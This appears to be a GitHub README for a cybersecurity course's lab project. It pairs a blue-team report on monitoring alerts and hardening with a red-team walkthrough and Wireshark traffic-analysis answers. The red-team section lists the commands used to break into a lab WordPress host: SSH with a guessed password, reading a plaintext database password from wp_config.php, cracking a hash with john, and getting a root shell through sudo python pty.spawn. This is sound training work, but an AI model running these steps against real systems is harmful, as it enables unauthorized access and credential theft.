


# Final-Project
Pentesting, Vulnerability hardening Project.
# Blue Team: Summary of Operations

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic & Behavior
- Suggestions for Going Further

### Network Topology
The following machines were identified on the network:

- Kali
  - **OS: Kali Linux**
  - **Purpose : Attacking Machine**
  - **IP: 192.168.1.1**
- ELK
  - **OS: Linux**
  - **Purpose: Elasticsearch, Logstash, Kibana**
  - **IP: 192.168.1.100**
- Capstone
  - **OS: Linux**
  - **Purpose: HTTP server**
  - **IP: 192.168.1.105**
- Target 1
  - **OS: Linux**
  - **Purpose: HTTP/Wordpress (victim)**
  - **192.168.1.110**
- Target 2
  - **OS: Linux**
  - **Purpose:**
  - **IP: 192.168.1.115**

### Description of Targets

The target of this attack was: `Target 1` **192.168.1.110**.

Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:

### Monitoring the Targets

Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:

#### HTTP Request Size Monitor

Alert 1 is implemented as follows:

  - **Metric**: http.request.bytes
  
  - **Threshold**: 3500 / 1 min
  
  - **Vulnerability Mitigated**: By monitoring / controlling http requests by byte size we can mitigate against DDOS attacks. 
  
  - **Reliability**: High reliability for this alert has a low possibility of creating false positives, we can be assured that this alert is reliable. 

#### Excessive HTTP Errors
Alert 2 is implemented as follows:

  - **Metric**: http.response.status_code > 400
  - **Threshold**: 5 errors in last 5 minutes
  - **Vulnerability Mitigated**: With this alert, we can mitigate brute force attacks by alerting of multiple error responses within the last 5 minutes which may perhaps be an attempt to access the server, with multiple failed attempts.
  - **Reliability**: Medium reliability,
  This alert may help find potential attacks but does have a slight chance of generating false positives in the case of human error or possible network issues unrelated to an attack.

#### CPU Usage Monitor 
Alert 3 is implemented as follows:

- **Metric**:system.process.cpu.total.pct

- **Threshold**: 0.5 in last 5 minutes 

- **Vulnerability Mitigated**: Monitoring CPU usage for unusual spikes can possibly indicate that there is a malicious file or virus attacking the system and mitigate risk of total compromise by integrating systems like a Host IPS (Intrusion Prevention System)  that can actively monitor and filter out traffic containing malicious code.
- **Reliability**: This alert can be useful, however It has low reliability due to the fact that CPU usage does not only spike during attacks, but in many other circumstances from time to time.


### Suggestions for Going Further (Optional)

- Each alert above pertains to a specific vulnerability/exploit. Recall that alerts only detect malicious behavior, but do not stop it. For each vulnerability/exploit identified by the alerts above, suggest a patch. E.g., implementing a blocklist is an effective tactic against brute-force attacks. It is not necessary to explain _how_ to implement each patch.

The logs and alerts generated during the assessment suggest that this network is susceptible to several active threats, identified by the alerts above. In addition to watching for occurrences of such threats, the network should be hardened against them. The Blue Team suggests that IT implement the fixes below to protect the network:


- Vulnerability 1 HTTP Request Size - DDoS
  - **Patch**: Implement firewalls to the network and Install snort using the following commands in terminal
	  + apt-get install snort
	  + apt-get install libdnet && apt-get install build-essential &&apt-get install bison flex && apt-get install libpcap-dev && apt-get install libpcre3-dev && apt-get install libnet1-dev && apt-get install zlib1g-dev && apt-get install libnetfilter-queue-dev # daq: nfq && apt-get install libmnl-dev && apt-get install libnfnetlink-dev && apt-get install libnetfilter_queue-dev
	  
	  
  - **Why It Works**: A firewall can restrict all traffic and only allow connections that are necessary and being used. Snort will actively monitor and block any unwanted traffic using the rules within snort.
  
- Vulnerability 2 Excessive HTTP Errors (Brute Force)

  - **Patch**: install fail2ban & reconfigure pwquality.conf.
  
	- sudo apt-get install fail2ban
	- sudo cp /etc/fail2ban/jail.conf /etc/fail2ban/jail.local
	- sudo nano /etc/fail2ban/jail.local [to edit configs]
	
  	- Require stronger password policies within the user account settings which can be found in the following paths. 

  				Windows : /etc/security/pwquality.conf
  				Linux : /etc/security/pwquality.conf
  	
  	-We can also disable ssh entirely OR create an ssh key to add an extra layer of security.			
 	

- **Why It Works**: Fail2ban is an IPS that can be integrated with a firewall or a packet control system on the server and is commonly used to block connections after a number of failed tries which can be configured to the users preferences. This will prevent unauthorized users from guessing or brute forcing passwords with little to no effort, needing more resources to potentially gain access may deter attackers from making an attempt at all.
  
- Vulnerability 3 CPU usage (Spike from malware/virus)
  - **Patch**: Install an up-to date Anti-Virus software along with snort and run regular scans for malware and viruses.
  - **Why It Works**: While snort blocks unwanted traffic based on a set of rules, regular scans with an up to date anti-virus software can mitigate against threats that may have infiltrated the system inadvertently by a user downloading malware in the form of a PUP/PUA/Grayware.


____________________________

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap scan: nmap -sV 192.168.1.110
 
```


This scan identifies the services below as potential points of entry:

- Target 1

  - :22 - SSH
  
  - :80 - HTTP
  
  - :111 - rpcbind
  
  - :139 - netbios / smb
  
  - :445 - netbios / smb


The following vulnerabilities were identified on each target:

- **Target 1**

	- **wpscan user enumeration**
 
 	 	- wpscan was able to enumerate users to uncover usernames for the target system.
	

	- **SSH with Password**
 
		- No SSH key being used.

 		- User michael had a password that can be easily guessed.
 	
	
	- **Python can run with sudo**

		- User steven has the ability to run python with sudo
	
		- Python can execute arbitrary code on the system, ultimately creating a loophole for escalated privelages to root access.
	

	- **Database credentials in plain text**

		- Database credentials for the wordpress site were found in /var/www/html/wp_config.php. Once I gained root access to the database, I was able to use mysql to search for files containing the string "flag" within it's contents.
	
	- **CVE-2017-3167**
	
		- Authentication bypass is possible on the version of Apache running on the server.
	
	- **CVE-2017-7494**
		- Version of samba running on the server is insecure and allows for remote code execution.


-***Initial scans to find vulnerabilities:***


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d

    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + grep -ER flag1

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + cat flag2.txt
	      
	      
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit: Root credentials (not hashed) for the mysql database were saved in /var/www/html/wp_config.php
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + nano /var/www/html/wp_config.php
	      + mysql -u root -p wordpress (password: R@v3nSecurity)
			- mysql > show databases;
			 - use wordpress
			 - show tables;
			 - select * from wp_posts;
			
			
			
			
  - `flag4.txt`(As Root): 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit:
      		-Privilege escalation using python
      
      		- After gaining access to steven's password hash via mysql, I used the john command on hash.txt, where I saved steven's password hash. 
      		- Checked permissions levels for steven and found that python can be used for privilege escalation.
      
- Commands run: 
  	
		-mysql> select * from wp_users;
		
		
  	
		-root@kali$> echo "(stevens password hash)" > hashes.txt
		
		-john hashes.txt
		
		
    
		-ssh steven@192.168.1.110
		
		-sudo -l
     	 
 		
 		
 		- sudo python -c 'import pty;pty.spawn("/bin/bash");'
 		
 		-cd /root
 		
 		-ls
 		
 		-cat flag4.txt
 		
		
		
		_____________________________
    
    Network Analysis
Time Thieves
At least two users on the network have been wasting time on YouTube. Usually, IT wouldn't pay much mind to this behavior, but it seems these people have created their own web server on the corporate network. So far, Security knows the following about these time thieves:
●	They have set up an Active Directory network.
●	They are constantly watching videos on YouTube.
●	Their IP addresses are somewhere in the range 10.6.12.0/24.
You must inspect your traffic capture to answer the following questions:
1.	What is the domain name of the users' custom site?
	Frank-n-ted.com
 
	
2.	What is the IP address of the Domain Controller (DC) of the AD network?
	10.6.12.12 (Frank-n-Ted-DC.frank-n-ted.com)
 
3.	What is the name of the malware downloaded to the 10.6.12.203 machine? Once you have found the file, export it to your Kali machine's desktop.
	june.dll 

4.	Upload the file to VirusTotal.com. What kind of malware is this classified as?
		Trojan Horse

 
Vulnerable Windows Machines
The Security team received reports of an infected Windows host on the network. They know the following:
●	Machines in the network live in the range 172.16.4.0/24.
●	The domain mind-hammer.net is associated with the infected computer.
●	The DC for this network lives at 172.16.4.4 and is named Mind-Hammer-DC.
●	The network has standard gateway and broadcast addresses.
Inspect your traffic to answer the following questions:


1.	Find the following information about the infected Windows machine:
○	Host name: Rotterdam-PC.mindhammer.net
○	IP address:172.16.4.205
○	MAC address: 00:59:07:b0:63:a4
 
 

2.	What is the username of the Windows user whose computer is infected?
	matthijs.devries
	 

3.	What are the IP addresses used in the actual infection traffic?
	172.16.4.205 - malware infected


	205.185.216.10- Received request and downloaded malware to above IP
Illegal Downloads
IT was informed that some users are torrenting on the network. The Security team does not forbid the use of torrents for legitimate purposes, such as downloading operating systems. However, they have a strict policy against copyright infringement.
IT shared the following about the torrent activity:
●	The machines using torrents live in the range 10.0.0.0/24 and are clients of an AD domain.
●	The DC of this domain lives at 10.0.0.2 and is named DogOfTheYear-DC.
●	The DC is associated with the domain dogoftheyear.net.


Your task is to isolate torrent traffic and answer the following questions:


1.	Find the following information about the machine with IP address 10.0.0.201:
○	MAC address - 00:16:17:18:66:c8
○	Windows username - elmer.blanco
○	OS version- Windows NT  10.0

 
 
 


2.	Which torrent file did the user download? 
Betty_Boop_Rhythm_on_the_Reservation.avi  
